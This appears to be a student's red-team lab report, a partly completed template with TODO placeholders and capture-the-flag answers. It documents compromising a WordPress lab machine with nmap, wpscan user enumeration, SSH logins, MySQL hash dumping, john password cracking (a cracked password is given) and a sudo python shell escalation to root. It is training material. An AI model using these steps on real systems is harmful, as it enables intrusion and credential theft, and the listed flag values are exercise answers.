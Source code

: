 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
_TODO: Fill out the information below._

Nmap scan results for each machine reveal the below services and OS details:

```bash
  # nmap -sV 192.168.1.110
```

![nmap output](Images/nmap.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp: SSH
  - Port 80/tcp: HTTP
  - Port 111/tcp: RPCbind
  - Port 139/tcp: netbios-ssn
  - Port 445/tcp: netbios-ssn

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - User Enumeration (WordPress site)
  - Weak User Password
  - Unsalted User Password Hash (WordPress database)
  - Misconfiguration of User Privileges/Privilege Escalation

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: _TODO: Insert `flag1.txt` b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - _TODO: Identify the exploit used_
      - _TODO: Include the command run_

```bash
  # wpscan --url 192.168.1.110/wordpress --enumerate u
```
![wpscan output](Images/wpscan1.png)
![wpscan output](Images/wpscan2.png)

  - Use SSH to gain a user shell
    - ssh michael@192.168.1.110

![ssh output](Images/ssh1.png)

    - cat var/www/html/service.html

![flag 1](Images/flag1.png)


  - `flag2.txt`: _TODO: Insert `flag2.txt` fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - _TODO: Identify the exploit used_
      - _TODO: Include the command run_

    - cat var/www/flag2.txt

![flag 2](Images/flag2.png)

  - `flag3.txt`: _TODO: Insert `flag3.txt` afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - _TODO: Identify the exploit used_
      - _TODO: Include the command run_

  - Find the MySQL database password
    - cd /var/www/html/wordpress/
    - nano wp-config.php

![MySQL DB password](Images/MySQL.png)

  - Use the credentials to log into MySQL and dump WordPress user password hashes.
    - Flag 3 found in wp_posts

![flag 3](Images/flag3.png)

    - Password hashes found in wp_users

![password hashes](Images/pwdhashes.png)

  - `flag4.txt`: _TODO: Insert `flag4.txt` 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - _TODO: Identify the exploit used_
      - _TODO: Include the command run_

  - Crack password hashes with john.
    - Copied steven's password hash from MySQL and pasted into ~/Desktop/hash.txt
    - cd ~/Desktop
    - john hash.txt
    - Discovered Steven’s password is “pink84”

![john output](Images/john.png)

  - Secure a user shell as the user whose password you cracked.
    - ssh steven@192.168.1.110

![ssh output](Images/ssh2.png)

  - Escalate to root
    - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
    - cd /root/

![ssh output](Images/flag4.png)
